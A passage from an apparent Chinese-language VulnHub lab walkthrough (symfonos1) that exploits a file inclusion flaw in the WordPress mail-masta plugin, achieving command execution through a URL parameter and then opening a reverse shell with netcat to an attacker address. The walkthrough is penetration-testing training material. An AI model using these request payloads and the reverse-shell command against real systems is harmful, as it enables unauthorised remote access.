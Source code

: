![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos1/17.png)

访问 helios 邮件 `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&a=ip a` 测试

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos1/18.png)

可以执行,测试回弹 shell,kali 监听
```
nc -lvp 4444
```

访问 `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&a=nc -nv 192.168.141.134 4444 -e /bin/bash`

